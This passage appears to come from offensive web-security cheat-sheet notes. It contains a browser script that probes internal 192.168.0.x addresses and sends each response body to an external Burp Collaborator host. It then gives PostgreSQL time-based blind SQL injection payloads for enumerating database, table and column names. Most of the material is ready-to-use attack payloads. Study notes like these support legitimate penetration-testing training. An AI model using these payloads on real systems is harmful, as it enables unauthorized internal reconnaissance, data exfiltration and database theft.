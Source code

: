 IP brute forcing (internal IP):

```
<script>
const BURP_HOST = '5qwkaad5lhyov1p42rppclhwnntdh2.oastify.com'
for (let i = 0; i < 256; i++) {
  fetch(`http://192.168.0.${i}:8080`)
  .then(res => { res.text().then(text => {
    fetch(`http://${BURP_HOST}?q=${i}&body=${encodeURIComponent(text)}`)
  })})
}
</script>
```

# SQLi

Note that different DB types will have different syntax. For example:

Oracle: —
MySQL: # or — (space after double dash)

Need to test for the different types if facing internal server errors.

The two types of SQLi will be UNION based injections or Blind SQLi. Make sure you know how to do both.

Standard SQLi with UNION (output in response) → Identify DB/Syntax and go from there

Blind SQLi with no output → identify condition (error, success, timing, OOB).

### Time Based (Postgresql):

Identify time based

`select 1 from pg_sleep(5)
;(select 1 from pg_sleep(5))
||(select 1 from pg_sleep(5))`

Database Dump Time Based

`select case when substring(datname,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from pg_database limit 1`

Table Dump Time Based

`select case when substring(table_name,1,1)='a' then pg_sleep(5) else pg_sleep(0) end from information_schema.tables limit 1`

Columns Dump Time Based

`select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from column_name limit 1
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from column_name where column`

### Misc techniques:
